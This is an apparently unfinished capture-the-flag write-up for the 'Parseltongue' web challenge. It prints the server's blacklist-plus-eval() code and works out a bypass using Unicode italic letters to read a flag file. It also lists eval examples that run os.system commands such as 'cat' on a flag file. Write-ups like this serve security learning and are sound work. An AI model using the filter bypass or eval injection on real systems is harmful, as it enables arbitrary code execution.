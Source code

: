 # Web: Parseltongue

You've meddled with the timeline, and now nobody speaks your language! Biff offers to help, but neither of you can understand each other. Can you sort this out?

**Target**: 68.183.43.15:30543

---

## Server with comments
To execute the server locally, copy this code to a python file.

```python
#!/usr/bin/env python3
import string


def ctf_challenge():
    blacklist = string.ascii_letters + '"\''  # --> abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"'

    payload = input("𝒲𝒽𝒶𝓉 𝓌𝑜𝓊𝓁𝒹 𝓎𝑜𝓊 𝓁𝒾𝓀𝑒 𝓂𝑒 𝓉𝑜 𝒹𝑜? ")
    # Iterate though all the characters of the payload
    # If a payload character is in the blacklist, filter() will remove it
    # DEBUG ---------------------------
    print(f'[Before filter] payload={payload}')
    filtrado = filter(lambda c: c in blacklist, payload)
    print(f'[After filter] payload={payload} & filtered={", ".join(filtrado)}')
    # If filter is not empty (it contains blacklisted characters or quotes), then any() returs true and the program breaks
    print(f'any = {any(filter(lambda c: c in blacklist, payload))}')
    # ----------------------------

    if any(filter(lambda c: c in blacklist, payload)):
        # If a blacklisted character is found, filer() returns true thus any() also returns true
        print("𝐼 𝒹𝑜𝓃'𝓉 𝓊𝓃𝒹𝑒𝓇𝓈𝓉𝒶𝓃𝒹 𝓌𝒽𝒶𝓉 𝓎𝑜𝓊 𝓂𝑒𝒶𝓃")
    else:
        # If the payload does not contain blacklisted characters, the payload is evaluated
        eval(payload)

```

I think we need to reach the else clause. For that we need to avoid any of these characters in the payload: `abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"'`

But how to write any intruction without using ascii characters? The key is to use unicode characters, since those can be interpreted by the computer and readed by humans, but are not considered equal to the ascii representation. For example, `𝒂 != a`

We tried to open the flag file and read its lines, but we were always blocked at the same point: the quotes. How could we input that command without using quotes?

## Extrange language

```
Payload: 𝒲𝒽𝒶𝓉 𝓌𝑜𝓊𝓁𝒹 𝓎𝑜𝓊 𝓁𝒾𝓀𝑒 𝓂𝑒 𝓉𝑜 𝒹𝑜? 
---
exit -> 𝓮𝔁𝓲𝓽(1)
print(open('./flag.txt', 'r').readlines())
𝒑𝒓𝒊𝒏𝒕(𝒐𝒑𝒆𝒏(“./𝒇𝒍𝒂𝒈.𝒕𝒙𝒕“,“𝒓“).𝒓𝒆𝒂𝒅𝒍𝒊𝒏𝒆𝒔())
---
𝒂
𝒃
𝒄
𝒅
𝒆
𝒇
𝒈
𝒉
𝒊
𝒋
𝒌
𝒍
𝒎
𝒏
𝒐
𝒑
𝒒
𝒓
𝒔
𝒕
𝒖
𝒗
𝒘
𝒙
𝒚
𝒛
“
```

## Eval()

[docs](https://realpython.com/python-eval-function/)

3 arguments
- expression  (string or compiled bytecode)
- globals
- locals

For example, I could evaluate:
- `eval("os.system('ls -la')")`
- `eval("os.system('cat /home/me/flag')")`
- `eval(compile("os.system('cat /home/me/flag')", "<string>", "eval"))`
